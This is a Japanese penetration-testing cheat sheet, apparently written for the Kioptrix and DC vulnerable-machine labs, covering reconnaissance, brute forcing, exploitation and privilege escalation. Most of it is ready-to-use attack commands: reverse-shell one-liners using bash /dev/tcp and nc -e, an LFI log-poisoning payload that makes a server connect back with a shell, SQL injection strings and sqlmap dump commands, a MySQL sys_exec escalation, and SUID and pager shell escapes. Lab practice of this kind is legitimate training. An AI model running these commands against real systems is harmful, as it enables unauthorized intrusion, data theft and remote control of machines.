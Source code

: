 🐻 Kioptrix#1/#2/#3/#4 DC-1/DC-2/DC-3/DC-4/DC-5

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

curl

    curl http://ip/login.php -XPOST -d 'username=aaa&password=bbb' 

状態確認

    uname -a
    cat /etc/redhat-release  #Redhat
    lsb_release -a           #Ubuntu
    cat /proc/version

SSH／認証鍵・ポート指定

     ssh -o PubkeyAuthentication=no -p 7720 user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

    ' or 1=1--

[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r .le -e .le

 1. どのようなユーザが存在するか？
 2. 権限昇格を狙えるものはあるか？
 3. SUID／SGID(実行ファイル所有者権限実行)が存在しないか？
 4. 自ユーザで書き込める・アクセスできるものは何か？


wpscan

    wpscan -e u --url http://ip/ 
    wpscan --url http://ip/ -U ./ulist -P ./plist


[CeWL: Custom Word List Generator](https://github.com/digininja/CeWL)

    bundle install --path vendor/bundle
    bundle exec ./cewl.rb http://XXX/ -w passlist

[vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra)

    hydra -v -L users -P passwords ssh://10.110...

[Wfuzz: The Web fuzzer](https://wfuzz.readthedocs.io/en/latest/)

    wfuzz -w common.txt -w LFI.txt http://192.168.77.132/sample.php?FUZZ=FUZ2Z


## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash')  #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/bash")'
    ruby -e 'exec "/bin/bash"'
    find /etc/passwd -exec /bin/sh \;  #SUID


[リバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999

    ;bash -i >& /dev/tcp/ip/9999 0>&1
    nc ip 9999 -e /bin/bash

[php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

 - CMS内で直接ファイルを編集・任意実行できる仕組みは無いか？
 - テンプレート・プラグイン読み込み機能は？

LFI

    curl -A "<?= system('nc -nv [ip] [port] -e /bin/bash'); ?>" http://ip/script.php
    script.php?file=/var/log/nginx/access.log


[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

[MySQL Root to System Root](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');


## Misc

Bash

    echo $PATH
    export PATH=$PATH:/usr/bin

    sudo -l

Vi/Vim

    :set shell=/bin/bash
    :shell

Git

    git -p --help  #意図的にページャを開く
    !/bin/sh


